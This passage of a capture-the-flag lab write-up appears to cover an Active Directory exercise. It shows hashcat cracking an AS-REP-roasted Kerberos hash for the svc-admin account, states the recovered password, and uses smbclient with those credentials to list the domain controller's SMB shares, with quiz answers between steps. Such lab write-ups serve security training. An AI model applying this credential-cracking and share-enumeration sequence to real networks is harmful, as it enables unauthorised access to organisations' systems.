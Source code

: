 ~~~
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d2c7d46d607...576bad
Time.Started.....: Sat Jun 20 14:39:17 2020 (15 secs)
Time.Estimated...: Sat Jun 20 14:39:32 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   411.8 kH/s (12.40ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 5840896/14344385 (40.72%)
Rejected.........: 0/5840896 (0.00%)
Restore.Point....: 5832704/14344385 (40.66%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: mandj4e -> mamitaraquel

Started: Sat Jun 20 14:39:03 2020
Stopped: Sat Jun 20 14:39:32 2020
~~~

The password is `management2005`

# [Task 6] Enumerate the DC Pt 3

**Enumeration**

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.


## #6.1 - Using utility can we map remote SMB shares?

*Hint: man smbclient will tell you a little bit about the tool!*

Using smbclient with the , we are able to list remote shares:

~~~
$ smbclient -U spookysec.local/svc-admin -L //10.10.104.142
Enter SPOOKYSEC.LOCAL\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
~~~

Answer: `smbclient`

## #6.2 - Which option will list shares?

